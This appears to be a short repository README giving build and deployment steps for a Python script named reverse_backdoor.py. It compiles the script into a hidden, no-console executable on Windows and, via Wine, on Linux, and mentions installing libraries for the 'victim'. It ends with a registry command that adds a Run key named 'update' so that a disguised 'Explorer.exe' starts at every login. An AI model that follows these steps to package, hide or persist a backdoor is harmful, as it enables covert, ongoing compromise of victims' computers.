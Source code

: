 #Windows
1: python -m pip install pyinstaller
2: pyinstaller.exe reverse_backdoor.py --onefile --noconsole

#Linux
1: Download python.msi cho windows
2: Run: wine msiexec /i python-....msi 
3: cd ./wine/drive_c/Python27
4: wine python -m pip install pyinstaller
5: Installs library in file python victim
6: wine pyinstaller.exe reverse_backdoor.py --onefile --noconsole

## Script reg windows start
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ /d "C:\Windows Explorer.exe"
